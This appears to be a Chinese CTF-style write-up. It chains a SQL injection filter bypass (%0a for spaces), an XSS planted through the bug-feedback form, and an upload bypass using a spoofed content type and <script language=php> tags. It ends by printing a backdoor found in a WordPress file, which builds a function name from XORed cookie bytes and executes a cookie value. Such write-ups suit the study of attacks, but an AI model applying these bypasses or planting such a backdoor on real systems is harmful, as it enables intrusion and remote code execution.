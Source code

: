 ```
id=2 返回等于 id=4-2

```

可以知道这有注入，然后但是发现应该是过滤了什么。

因为懒，所以我 SQLmap 的 tamper 一个个试过去，不巧第二个就成功了。看了下，发现是讲空格转换成 %0a 。

然后注入出后台管理员账号密码。

然后但是不知道后台啊，所以将注入 concat 出一个 xss 。从 bug 反馈那边打到后台。

（这里是吐槽：管理员的密码跑出不来。最后手抽去 Google 了一下才得到密码。）

进入后台后有上传点，尝试直接上传不成功，修改上传的包

```
text/php -> image/jpg

```

发现可上传，但是其实没搞定。后来，百度了几个免杀 PHP 一句话之类的。发现，如果 PHP 标签不是

```
<?php ?> 

```

而是

```
<script language=php></script>

```

就可以绕过。

然后应该是过滤了很多函数，尝试直接列目录和读文件，发现目录下有个 wordpress 的压缩包。赌五毛就是看压缩包日 blog 了。

然后根据时间将压缩包里的文件都列出来，发现

```
/wp-include/revision.php

```

这个文件是最近修改过的， diff 了下官方版本的 wordpress 发现里面多了这么一段。

```
function wp_check_my_session(){ 
if(isset($_COOKIE['wp-ssesion'])) {
    $_check=($_COOKIE['wp-sesion'][0]^$_COOKIE['wp-sesion'][1]).
            ($_COOKIE['wp-sesion'][2]^$_COOKIE['wp-sesion'][3]).
            ($_COOKIE['wp-sesion'][4]^$_COOKIE['wp-sesion'][5]).
            ($_COOKIE['wp-sesion'][6]^$_COOKIE['wp-sesion'][7]).
            ($_COOKIE['wp-sesion'][8]^$_COOKIE['wp-sesion'][9]).
            ($_COOKIE['wp-sesion'][10]^$_COOKIE['wp-sesion'][11]);
    $_check($_COOKIE['wp-ssesion']);
}
else{
return 0;
}

```
